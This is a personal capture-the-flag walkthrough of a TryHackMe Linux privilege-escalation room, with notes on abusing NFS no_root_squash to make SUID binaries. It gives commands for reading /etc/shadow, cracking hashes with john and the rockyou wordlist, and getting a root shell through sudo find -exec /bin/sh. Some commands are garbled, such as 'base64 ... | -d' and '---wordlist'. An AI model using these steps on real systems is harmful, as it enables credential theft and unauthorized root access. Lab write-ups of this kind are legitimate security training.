 ![NFS FILES](https://github.com/ryangreggw/THM-BOXES/assets/25268281/8af8945f-b48c-4cb1-9b3d-fee6c63edaa9)  
![mountable NFS files](https://github.com/ryangreggw/THM-BOXES/assets/25268281/c4149b10-69b4-4dd0-8a43-4cbc52e0e432)  
![setting SUID bits for binbash nfs](https://github.com/ryangreggw/THM-BOXES/assets/25268281/cced11ac-d009-468b-a8ad-8bb2bdcea6ae)
![binbash SUID executable](https://github.com/ryangreggw/THM-BOXES/assets/25268281/e3e541aa-c6c3-4ce7-9429-baa85570a823)
![tmp NFS root](https://github.com/ryangreggw/THM-BOXES/assets/25268281/cdd174f8-7410-45f0-8021-96f6d3694a1f)

### ***# NFS NOTES:***
- Network File Sharing configuration is kept in the ```/etc/exports``` file. 
- "no_root_squash" option. If this is present on a writable share, we can create an executable with a SUID bit and run it on our target's system. 
- Setting a SUID bit, sounds like some incantation. What this translate to is allowing a file to be executed with the privileges of the file's owner, regardless of what user is executing it. 
  - ```gcc <file name you want to add SUID bit to> -o <what you want this file to be called> -w```
  - ```chmod u+s <file path>```
    - The "u" switch specifies the user class. 
      - u - owner of the file/directory. 
      - g - group of the file/directory.
      - o - all other users. 
    - The "s" switch stands for setuid. 

### ***# TASK 12: CAPSTONE CHALLENGE***
#### THINGS I TRIED PRIOR TO JOHN THE RIPPER:
- ```sudo -l```
   - No sudo privileges. 
- getcap -r / 2>/dev/null
  - suexec? 
- cat /etc/crontab
   - no tasks
- path escalation: 
-  ```find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u```
   -  home/leonard ??? 
   -  tmp
1. The other methods may have worked but either I didn't see it or I just don't know how to utilize them. So, I used john the ripper and got the password for Missy's account. 
- SSH in with leonards credentials. 
- Make files of the passwd and shadow files with a text editor (I used sublime):
  - ```base64 /etc/passwd | -d```
  - ```base64 /etc/shadow | -d```
- Next, use unshadow via john the ripper to combine the files: 
  - ```unshadow <file1> <file2> > <file3>```
- Run john the ripper: 
  - ```john ---wordlist=/usr/share/wordlists/rockyou.txt <file3>```
    - You should now have Missy's password. 
2. SSH into missy's account:
- ```cat ./missy/Documents/flag1.txt```
  - You've got your first flag. 
3. Flag2, I repeated the same process as before, but didn't have to go far. Missy has a sudo privilege and base64 has a SUID bit. 
  - We're going to exploit ```find``` with a sudo command to obtain root privileges" 
    - ```sudo find . -exec /bin/sh \; -quit```
    - BOOM, we're root. 
- Back out of the directory and find flag2. 
  - ```find -name flag2.txt```
  - ```./home/rootflag/flag2.txt```

